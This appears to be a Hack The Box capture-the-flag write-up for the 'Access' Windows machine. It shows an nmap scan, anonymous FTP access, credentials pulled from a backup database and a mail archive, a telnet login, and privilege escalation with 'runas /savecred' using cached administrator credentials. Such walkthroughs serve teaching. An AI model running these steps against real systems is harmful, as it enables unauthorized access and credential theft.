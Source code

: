 # Access Writeup

My first HTB writeup! Please be gentle.

## Getting User
I always start every box with a simple nmap scan.

`nmap -A  10.10.10.98`

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-30 21:41 PST
Nmap scan report for 10.10.10.98
Host is up (0.22s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: W
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   222.88 ms 10.10.12.1
2   222.93 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.79 seconds
```
There's a lot of information here, but there are a couple notable things to look at:

* Anonymous FTP login possible
* Telnet
* IIS 7.5 Webserver

The most promising approach would be to investigate FTP

### Digging into FTP
The first thing I like to do for services like FTP is banner grabbing for any additional information.

`ftp 10.10.10.98`
```
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```

Looks like the machine is running the default Microsoft FTP server and also happens to be Windows NT. Digging around in FTP yields a pretty simple file structure

```
Access FTP
|-- Backups
|    |-- backup.mdb
|-- Engineer
     |-- Access Control.zip
```

`backup.mdb` appears to be some sort of legacy Microsoft database after some quick searching, and `Access Control.zip` is a password protected archive.

Opening `backup.mdb` in Microsoft Access gives us a lot of tables to look through. A lot of them are seemingly garbage, but a lot of them also contain employee personal information. The table that we're interested in is  `auth_user`, which contains usernames and passwords for various users.

```
admin : admin
engineer : access4u@security
backup_admin : admin
```

We now have three users to work with, and open telnet. Quick testing reveals that `admin` and `backup_admin` don't have accounts on the machine. `engineer` however, does, but is not a member of the `TelnetClients` group.

On further investigation, the password for  `engineer`, `access4u@security` works on the password protected archive `Access Control.zip` from earlier. The extraction reveals a new file, `Access Control.pst`. Opening the file with outlook gives us an email.

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

On trying this new login with telnet, we get user:

```
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```

After navigating to the Desktop, we read `user.txt` and get the users flag.

## Getting Root

After some quick enumeration, we've got some idea of our environment. The machine is running Windows Server 2008 R2 with a seemingly standard setup.

After following this handy privesc checklist from [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md), it appears that there are cached credentials on the system!

`cmdkey /list`

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

After some internet sleuthing, it the `runas` command can use cached credentials to run commands as another user.

```
runas /savecred /user:ACCESS\Administrator "cmd.exe /c type c:\users\administrator\desktop\root.txt > C:\users\security\test.txt
```

This reads root.txt as administrator and copies the output into a file we can read. `type test.txt` gets us the root flag.
